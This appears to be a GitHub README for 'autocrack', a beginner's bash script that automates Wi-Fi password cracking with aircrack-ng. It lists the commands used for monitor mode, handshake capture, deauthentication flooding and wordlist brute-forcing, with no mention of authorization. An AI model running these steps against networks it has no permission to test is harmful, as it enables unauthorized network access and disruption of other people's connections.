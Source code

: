 # autocrack
Make aircrack-ng 1.6 works under bash (absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!

prerequisite:
- linux os (debian was used)
- wifi adapter or a laptop with adapter that support monitor mode

make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable (chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!

some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)


and as usual ENJOY!
